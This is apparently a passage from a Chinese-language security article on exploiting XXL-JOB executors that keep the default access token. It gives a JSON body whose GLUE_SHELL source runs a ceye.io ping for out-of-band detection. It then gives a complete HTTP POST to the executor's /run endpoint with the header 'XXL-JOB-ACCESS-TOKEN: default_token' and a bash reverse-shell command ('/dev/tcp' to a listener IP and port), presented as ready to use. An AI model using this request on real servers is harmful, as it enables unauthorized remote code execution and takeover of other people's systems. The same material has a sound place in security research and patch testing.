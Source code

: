 ```
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "ping x.ceye.io",      
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9Jvc086UGWg2XU5Gu2P6Hd8sZmqsMMReFhxibIaySOibDWCQ9lbY4JYLpt2sGwtzacwcrtmeydflpZgkA/640?wx_fmt=jpeg&from=appmsg "")  
  
还可以利用 bash -i >& /dev/tcp/监听IP/监听端口 0>&1  
 进行反弹shell  
等操作。  
```
POST /run HTTP/1.1
Host: x.x.x.x:9999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "bash -i >& /dev/tcp/监听IP/监听端口 0>&1",      "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}

```  
  
## 0x05 批量漏洞挖掘  
  